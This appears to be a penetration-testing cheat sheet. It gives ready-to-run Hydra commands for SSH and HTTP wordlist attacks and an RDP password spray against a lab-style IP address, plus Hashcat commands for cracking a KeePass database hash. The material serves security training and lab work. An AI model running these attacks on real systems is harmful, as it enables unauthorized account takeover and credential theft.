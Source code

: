 ## Commands/Tools to attack network services

SSH wordlist attack with Hydra  
```hydra -l myuser -P password.list -s 2222 ssh://10.10.10.43```

RDP password spray attack with Hydra  
```hydra -L username.list -p "myPassword123" rdp://10.10.10.43```

HTTP wordlist attack with Hydra  
```hydra -l myuser -P password.list 10.10.10.43 http-post-form "/login:user_param=user&password_param=^PASS^:Failure Message"```

## Password cracking

### Hashcat

Useful blog posts that I had written:  
* https://web.archive.org/web/20210615060624/https://laconicwolf.com/2018/09/29/hashcat-tutorial-the-basics-of-cracking-passwords-with-hashcat/  
* https://web.archive.org/web/20210615064601/https://laconicwolf.com/2019/03/29/hashcat-tutorial-rule-writing/

Finding hash mode  
```hashcat --help | grep -i "hashtype"```  

#### Example commands  

Cracking a keepass database hash with a wordlist and rules  
```hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force```



